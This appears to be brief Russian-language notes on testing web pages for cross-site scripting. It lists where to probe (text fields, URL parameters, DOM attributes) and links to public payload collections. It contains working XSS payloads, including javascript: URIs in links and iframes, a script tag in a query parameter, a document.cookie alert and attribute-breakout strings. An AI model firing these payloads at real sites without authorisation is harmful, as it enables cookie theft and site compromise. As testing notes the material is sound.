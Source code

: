 # Поиск точек для ввода
Вставить текст и понять где на странице отобразилось сообщение: '">test
HTML Injection
CSS Injection
<a href="javascript:alert(1)">Link</a>
<iframe src="javascript:alert(1)"></iframe>

# Проверка URL
?returnTo=javascript:alert(document.cookie)
index.php?name=<script>alert(1)</script>

# Проверка форм

# Проверка DOM
<img src=""/resources/images/tracker.gif?searchTerms=asdf"" onload=""alert(1)"">
 "" onclick=alert(1)//<button ‘ onclick=alert(1)//> */ alert(1)//"	"
 
 
# Payloads
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection
https://github.com/coffinxp/payloads/tree/main"
https://aszx87410.github.io/beyond-xss/en/
